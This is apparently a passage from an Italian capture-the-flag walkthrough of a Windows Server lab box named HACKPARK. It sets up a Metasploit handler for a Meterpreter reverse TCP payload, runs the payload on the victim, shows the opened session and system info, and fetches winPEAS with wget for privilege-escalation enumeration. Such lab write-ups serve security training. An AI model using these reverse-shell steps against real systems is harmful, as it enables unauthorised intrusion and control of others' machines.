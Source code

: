 ```
search multi handler
```

```
use multi/handler
```

```
set payload windows/meterpreter/reverse_tcp
```

```
set LHOST 10.11.116.149
```

```
set LPORT 4444
```
ci mettiamo in ascolto
```
run
```

sulla macchina vittima eseguiamo il payload
```
shellX.exe
```

otteniamo la nostra reverse shell stabile
```
[*] Started reverse TCP handler on 10.11.116.149:4444 
[*] Sending stage (176198 bytes) to 10.10.226.170
[*] Meterpreter session 1 opened (10.11.116.149:4444 -> 10.10.226.170:49286) at 2025-01-07 05:34:09 -0500

meterpreter > 

```

```
sysinfo
```

```
Computer        : HACKPARK
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

Qui scaricheremo [WinPeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20231203-9cdcb38f) , quindi lo eseguiremo sul computer di destinazione.

```
wget "https://github.com/peass-ng/PEASS-ng/releases/download/20231203-9cdcb38f/winPEASx64.exe"
```
